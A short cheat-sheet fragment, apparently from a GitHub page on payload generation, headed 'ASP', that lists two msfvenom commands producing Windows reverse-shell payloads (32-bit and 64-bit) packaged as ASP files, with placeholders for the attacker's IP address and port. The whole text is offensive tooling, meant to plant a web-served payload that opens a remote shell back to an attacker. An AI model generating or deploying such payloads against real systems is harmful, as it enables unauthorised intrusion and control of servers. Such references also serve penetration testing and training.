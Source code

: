 # ASP

- x86 (32-bit) Payloads

`$ msfvenom -p windows/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp`

- x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86-64.asp`